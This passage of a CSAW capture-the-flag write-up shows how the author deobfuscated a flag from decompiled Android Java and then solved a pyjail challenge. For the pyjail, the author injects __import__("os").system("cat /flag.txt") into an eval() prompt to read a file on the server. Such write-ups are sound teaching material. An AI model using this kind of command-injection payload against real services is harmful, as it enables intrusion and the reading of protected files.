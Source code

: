 ```java
            str = new BufferedReader(new InputStreamReader(httpURLConnection.getInputStream())).readLine();
            httpURLConnection.disconnect();
        } catch (Exception e) {
            e.printStackTrace();
            httpURLConnection.disconnect();
            str = "";
        } catch (Throwable th) {
            httpURLConnection.disconnect();
            throw th;
        }
        notTheFlag = Base64.getDecoder().decode(str);
        return obf(275, 306, 42);
    }

    public static String obf(int i, int i2, int i3) {
        int i4 = i2 - i;
        char[] cArr = new char[i4];
        for (int i5 = 0; i5 < i4; i5++) {
            cArr[i5] = (char) (notTheFlag[i + i5] ^ i3);
        }
        return new String(cArr);
    }
}
```
The final solution is: 
```python
    a = "bEVYCkNEWV5LRElPBgpFRA ...<snip>...RURZBA" #provided by a call to the challenge server

    # reverse the obfuscation logic in the dex file.

    def deobfus(notTheFlag, i, i2, i3):
        i4 = i2 - i
        flag = [b'']* i4
        for i5 in range(i4):
            flag[i5] = notTheFlag[i+i5] ^ i3
        print (''.join([chr(x) for x in flag]))

    deobfus(b64decode(a), 275, 306, 42)

    # csawctf{dyn4m1c_lo4deRs_r_fuN!}
```

#### My first pwnie
A simple pyjail challenge that needs us to take advantage of a `eval()` step to read the flag. 

```bash
% nc intro.csaw.io 31137
What's the password? __import__("os").system("cat /flag.txt")
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```
